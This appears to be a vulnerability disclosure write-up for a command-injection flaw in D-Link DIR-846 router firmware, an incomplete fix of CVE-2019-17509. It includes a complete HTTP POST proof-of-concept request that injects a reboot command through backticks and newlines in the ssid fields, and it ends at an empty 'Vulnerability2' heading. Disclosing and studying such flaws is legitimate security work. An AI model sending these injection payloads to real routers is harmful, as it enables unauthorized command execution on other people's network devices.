


# DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

## Vulnerability1

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.



#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```

#### TEXT

​	The following data packets will cause the router to restart	

## Vulnerability2

